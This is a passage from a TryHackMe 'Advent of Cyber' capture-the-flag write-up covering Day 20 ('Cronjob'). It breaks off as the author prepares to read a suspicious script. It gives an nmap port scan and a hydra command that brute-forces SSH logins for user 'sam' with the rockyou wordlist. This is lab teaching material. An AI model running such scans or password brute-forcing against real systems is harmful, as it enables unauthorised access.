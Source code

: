 Read the file and capture the flag.

![flag 19](/assets/images/THM/2020-08-15-advent-of-cyber/day19/3.png)


<span id="20"></span>

## Day 20 (Task 25): Cronjob

First and foremost, do a Nmap scan.

```
nmap -p4000-5000 -A -v <machine IP>
```

![love nmap](/assets/images/THM/2020-08-15-advent-of-cyber/day20/1.png)

Look like we have port 4567 (SSH) service running on the machine. As for the next task, we need to brute force the service with username sam.

```
hydra -s 4567 -t 64 -l sam -P /usr/share/wordlists/rockyou.txt ssh://<machine IP>
```

![sam pass](/assets/images/THM/2020-08-15-advent-of-cyber/day20/2.png)

We got the password. Time to login to the shell.

![first flag](/assets/images/THM/2020-08-15-advent-of-cyber/day20/3.png)

There is one particular script in /home/scripts that raises suspicion to us. Let's read the content.
